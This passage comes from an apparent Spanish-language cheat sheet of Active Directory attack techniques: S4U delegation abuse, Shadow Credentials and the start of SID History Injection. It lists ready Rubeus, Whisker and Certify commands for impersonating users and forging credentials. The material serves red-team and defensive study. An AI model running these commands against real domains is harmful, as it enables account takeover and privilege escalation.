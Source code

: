 [Volver al índice](#índice-de-técnicas)

---

## 17. S4U (Service-for-User) Delegation Abuse

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Abusa de S4U2Self/S4U2Proxy para obtener tickets de otros usuarios.                     |
| **Condiciones** | Control de cuenta delegada.                                                             |

**Herramientas y comandos:**

- **Windows:**  
  - **Rubeus:**  
    ```powershell
    Rubeus.exe s4u /user:<USER> /rc4:<HASH> /impersonateuser:<TARGET> /msdsspn:<SPN> /ptt
    ```

[Volver al índice](#índice-de-técnicas)

---

## 18. Shadow Credentials

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Agrega clave a objeto AD para obtener TGT con certificados.                             |
| **Condiciones** | Permiso de escritura sobre objeto AD.                                                   |

**Herramientas y comandos:**

- **Windows:**  
  - **Whisker:**  
    ```powershell
    Whisker.exe add /target:<user>
    ```
  - **Certify:**  
    ```powershell
    Certify.exe shadowcred /target:<user>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 19. SID History Injection

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Inyecta SIDs históricos en un usuario para heredar permisos.                            |
| **Condiciones** | Privilegios Domain Admin.                                                               |
